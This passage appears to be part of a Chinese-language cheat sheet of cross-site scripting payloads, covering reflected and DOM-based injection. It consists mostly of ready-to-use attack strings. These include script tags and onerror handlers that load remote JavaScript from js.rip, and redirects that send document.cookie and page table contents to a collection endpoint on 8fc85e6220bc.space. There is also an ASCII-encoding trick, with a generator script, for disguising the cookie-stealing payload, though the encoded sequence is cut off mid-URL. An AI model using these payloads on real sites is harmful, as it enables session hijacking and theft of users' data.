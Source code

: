 ### 3. 使用Image对象
```html
'><img src=x onerror="new Image().src='https://js.rip/20njahuoqt'">
```

## DOM型XSS Payloads

### 1. 基本DOM XSS
```html
' onclick="alert('XSS')"
```

### 2. 使用JavaScript事件
```html
' onmouseover="alert('XSS')"
```

### 3. 使用动态脚本
```html
'><script>var s=document.createElement('script');s.src='https://js.rip/20njahuoqt';document.body.appendChild(s);</script>
```

## 攻击脚本
```html
<script>标签：<script>标签是最直接的XSS有效载荷, 脚本标记可以引用外部的JavaScript代码,也可以将代码插入脚本标记中
	-----------------------------
	 <script>alert("hello")</script>   #弹出hello
	 <script>alert(/hello/)</script>   #弹出hello
	 <script>alert(1)</script>        #弹出1,对于数字可以不用引号
	 <script>alert(document.cookie)</script>      #弹出cookie
	 <script src=http://xxx.com/xss.js></script>  #引用外部的xss
     <script>window.location.href="http://www.8fc85e6220bc.space/collect?cookie="+document.cookie</script>
     <script>window.location.href="http://www.8fc85e6220bc.space/collect?cookie="+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>
<script>window.open="http://www.8fc85e6220bc.space/collect?cookie="+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>
    K: <script>document.location.href="http://www.8fc85e6220bc.space/collect?cookie="+document.cookie</script>
下面是K：对应的ASCII码{60,115,99,114,105,112,116,62,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,119,119,119,46,56,102,99,56,53,101,54,50,50,48,98,99,46,115,112,97,99,101,47,99,111,108,108,101,99,116,63,99,111,111,107}
可以用以下javascript脚本生成：
const input = '<script>document.location.href="http://www.8fc85e6220bc.space/collect?cookie="+document.cookie</script>';
const asciiCodes = Array.from(input).map(char => char.charCodeAt(0));
const result = asciiCodes.join(',');
console.log(result);
生成ASCII后可以用以下脚本：
<body/**/οnlοad=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,119,119,119,46,56,102,99,56,53,101,54,50,50,48,98,99,46,115,112,97,99,101,47,99,111,108,108,101,99,116,63,99,111,111,107));>





	------------------------------
 <svg>标签：
	------------------------------
	 <svg onload="alert(1)">
```